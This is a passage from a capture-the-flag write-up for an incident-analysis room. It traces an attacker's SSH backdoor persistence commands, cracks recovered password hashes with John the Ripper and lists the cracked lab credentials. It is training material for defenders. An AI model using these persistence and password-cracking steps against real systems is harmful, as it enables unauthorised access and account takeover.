 * cd ssh-backdoor

They navigate to the cloned directory for the backdoor.

* ssh-keygen

They go and generate a new SSH key.

* id_rsa

They setup their identification key and save it.

* chmod +x backdoor

They then make the backdoor executable as root, and can launch it since they have privileges.

* ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

The attacker has established persistence, and runs the ssh backdoor with their desired hash.

** 5) Using the fasttrack wordlist, how many of the system passwords were crackable?**

Now, we should find out which accounts have been compromised by the attacker in the volume shadows.

We can note that the following users returned hashes, hopefully they used secure passwords that cannot be cracked.

* james (compromised by .overpass)
* paradox
* szymex
* bee
* muirland

We can note that these are most likely all SHA512 crypt because they start with **$6$**.

Let's go ahead and run [John the Ripper](https://github.com/openwall/john) along with the fasttrack wordlist on the hashes we received.

```
sudo john hashes.txt --wordlist=/usr/share/wordlists/fasttrack.txt
```

Unfortunately, every created user has been compromised. We weren't able to fasttrack james, but he was already compromised by the attacker.

```
bee;secret12
szymex;abcd123
muirland;1qaz2wsx
paradox;secuirty3
```

## Task 2: Research - Analyse the code

Now for some fun, lets go ahead and clone that backdoor to our overpass 2 directory we created using the same cloning command as the attacker. Luckily, since its open source on github we won't have to do any reverse engineering.

**Please do not install this backdoor on your personal computer.**
